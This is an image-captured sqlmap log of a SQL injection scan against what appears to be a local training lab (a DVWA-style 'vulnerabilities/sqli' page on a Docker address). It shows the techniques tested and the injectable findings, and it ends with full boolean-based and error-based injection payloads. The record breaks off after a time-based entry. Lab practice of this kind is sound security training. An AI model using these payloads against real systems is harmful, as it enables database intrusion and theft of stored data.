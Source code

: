 ```txt
[13:48:41] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:48:41] [INFO] testing 'Generic inline queries'
[13:48:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:48:41] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:48:42] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[13:48:42] [INFO] URI parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --not-string="Me")
[13:48:42] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:48:42] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:48:42] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:48:42] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:48:42] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:48:42] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:48:42] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:48:42] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:48:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:48:42] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:48:42] [INFO] URI parameter '#1*' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[13:48:42] [INFO] testing 'MySQL inline queries'
[13:48:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:48:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:48:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:48:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:48:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[13:48:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[13:48:42] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:48:52] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:48:52] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:48:52] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:48:52] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:48:52] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:48:52] [INFO] target URL appears to have 2 columns in query
[13:48:52] [INFO] URI parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[13:48:52] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 138 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR NOT 3699=3699#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR (SELECT 3256 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(3256=3256,1))),0x716b707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Dqos&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```